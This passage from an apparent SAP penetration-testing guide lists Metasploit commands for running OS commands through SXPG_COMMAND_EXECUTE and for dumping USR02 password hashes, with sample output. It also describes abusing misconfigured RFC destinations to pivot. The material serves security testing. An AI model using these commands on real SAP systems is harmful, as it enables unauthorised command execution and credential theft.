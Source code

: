 **Tool:** Custom Python (`pyrfc`) script or Metasploit

**Metasploit Example:**
```bash
use auxiliary/admin/sap/sap_soap_rfc_exec
set RHOSTS <SAP_SERVER_IP>
set FUNCTION SXPG_COMMAND_EXECUTE
set CMD 'whoami'
run
```

✅ **Positive Response:**  
If the function call succeeds, you will see OS command output:
```
[+] Output: sapadm
```

**Tip:** You must have valid SAP credentials before testing.

---

## 3. Misconfigured RFC Destinations

**Goal:** Find RFC destinations that allow unauthenticated or weakly authenticated calls.

### 📍 How to Test:

**Manual:** From SAP GUI (transaction code `SM59`) if you have SAP user.

**Automated:** Using Python `pyrfc` or manual SAP enumeration.

✅ **Positive Response:**  
- RFC destinations with empty credentials
- Weak or default passwords configured

You can abuse it to **pivot** to another SAP system.

---

## 4. Password Hash Dumping

**Goal:** Dump SAP user password hashes (from table `USR02`) via RFC access.

### 📍 How to Test:

**Tool:** Custom Python `pyrfc` script or Metasploit module

**Metasploit Example:**
```bash
use auxiliary/admin/sap/sap_rfc_table_read
set RHOSTS <SAP_SERVER_IP>
set TABLE USR02
run
```

✅ **Positive Response:**  
If successful, you get password hashes like:
```
[+] User: SAP* | Hash: E3AFED0047B08059D0FADA10F400C1E5
```
